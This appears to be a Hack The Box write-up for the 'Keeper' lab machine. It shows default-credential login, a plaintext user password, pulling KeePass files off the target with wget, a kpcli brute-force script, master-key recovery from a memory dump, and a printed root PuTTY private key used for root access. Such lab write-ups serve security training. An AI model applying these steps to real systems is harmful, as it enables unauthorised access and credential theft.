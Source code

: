 # **Keeper | HTB**

***

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/21999f4f-3cc7-4bc1-9253-fd894cb3b7cf)

***

Running our nmap scan we have 2 open ports which are 22/SSH and 80/HTTP


```bash
# Nmap 7.94SVN scan initiated Thu Feb  8 06:57:52 2024 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.11.227
Increasing send delay for 10.10.11.227 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.11.227 from 5 to 10 due to 116 out of 289 dropped probes since last increase.
Warning: 10.10.11.227 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.227
Host is up (0.17s latency).
Not shown: 58541 closed tcp ports (conn-refused), 6992 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 07:00:42 2024 -- 1 IP address (1 host up) scanned in 170.03 seconds
```



Navigating to port 80/HTTP we can see that we advised to redirect to [tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)



![](https://i.imgur.com/IERhxF8.png)



Go ahead and add both `tickets.keeper.htb` and `keeper.htb` to your `/etc/hosts` file



![](https://i.imgur.com/Q2hwLpq.png)



Clicking on the link you should be redirected to this page



![](https://i.imgur.com/fbZCgwG.png)



After few enumeration i decided to search for the keyword "**RT 4.4.4 default credentials**" on google and came up with `root:password` creds


![](https://i.imgur.com/nFRjj5Z.png)



Trying this out on the web page gave us access, whoop :)


![](https://i.imgur.com/l9GOIau.png)



Navigating to `http://tickets.keeper.htb/rt/Admin/Users/` i found another user called "**lnorgaard**"


![](https://i.imgur.com/PsSOGX8.png)



Clicking the username of "**lnorgaard**", looks like we found the users password, `lnorgaard:Welcome2023!`



![](https://i.imgur.com/A9qoLjh.png)



Found out that this cred we got can login via SSH 


![](https://i.imgur.com/QEcaczU.png)


Running `ls` in our user home directory we have `.zip` file, you can go ahead and unzip it, in which gives us 2 other KeePass filess



![](https://i.imgur.com/rY07FyF.png)


Go ahead and transfer both files to our attacker's machine

```bash
# Target
python3 -m http.server 1337

# Attacker
wget 10.10.11.227:1337/passcodes.kdbx
wget 10.10.11.227:1337/KeePassDumpFull.dmp
```



![](https://i.imgur.com/LANCqPy.png)


After few attempts, trying to crack the `.kdbx` file and nothing comes up, i decided to copy the `KeePassDumpFull.dmp` file and paste on google which gave me this [link](https://github.com/matro7sh/keepass-dump-masterkey)


```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git

cd keepass-dump-masterkey

python3 poc.py <PathToDmp>
```



Sometimes, the above might not work so use this simple `.sh` script, Note that > This script works very well in the case of a physical machine, for virtual machines it does not seem stable




```bash
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2
```


![](https://i.imgur.com/kicyADZ.png)



Running the `poc.py` script create a listener then opening the `passcodes.kdbx` dump some gibberish text in the `poc.py` process, i then decided to copy few of the text and here is what google gave me -:


![](https://i.imgur.com/r8Zo01Z.png)


Copying this and pasting it, gives us access to the dashboard (all lowercase)



![](https://i.imgur.com/n7O1gcO.png)


Unfortunately for us, the root password doesn't work 🤣, so let focus on the certificates given, go ahead and save this file into a file called `id_rsa.ppk` 


```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```


![](https://i.imgur.com/vBLv3lM.png)



Now split the public key away from the file with the following command


```bash
puttygen id_rsa.ppk -O public-openssh -o id_rsa.pub
```



![](https://i.imgur.com/shqpcRE.png)




Do this also for the private key


```bash
puttygen id_rsa.ppk -O private-openssh -o id_rsa
```



![](https://i.imgur.com/qkHx1Kt.png)



You should then be able to login as root



![](https://i.imgur.com/ZFaCFrC.png)


Incase i am a little bit too nerdy, well This [blog](https://www.baeldung.com/linux/ssh-key-types-convert-ppk) explains how you can split the private and public key better 🤓, Have fun

GG 🎺

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

